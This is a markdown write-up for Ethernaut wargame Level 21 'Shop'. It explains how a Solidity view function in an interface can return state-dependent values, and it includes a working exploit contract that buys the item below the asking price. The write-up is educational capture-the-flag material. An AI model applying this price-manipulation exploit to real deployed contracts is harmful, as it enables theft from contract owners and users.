 ```yaml
---
title: Level 21 - Shop
slug: level-21
published: 05-21-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut21.svg
---
```


## Objectives

1. Obtain an item for less than the asked price.

## Vulnerabilities

### Interface functions

`Interface` functions that have the `view` modifier can still be used to return different values based on another a contract's state.
Indeed, view functions can still read state and therefore can use that fact to have conditionnals.

## Exploit

1. Write and deploy a hack contract like this one:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Shop.sol";

contract ShopHack is Buyer {
    Shop target;

    constructor(address _targetAddress){
        target = Shop(_targetAddress);
    }

    function price() external view returns(uint){
        return target.isSold() ? 1 : 102;
    }

    function Hazaah() external {
        target.buy();
    }
}
```

2. Call the `Hazaah`function to buy the item at a lower price than asked.

## Further reading

- Documentation of `view` functions <ExternalLink href={"https://docs.soliditylang.org/en/develop/contracts.html#view-functions"} />
- Example of simple `view` and `pure` functions <ExternalLink href={"https://solidity-by-example.org/view-and-pure-functions/"} />
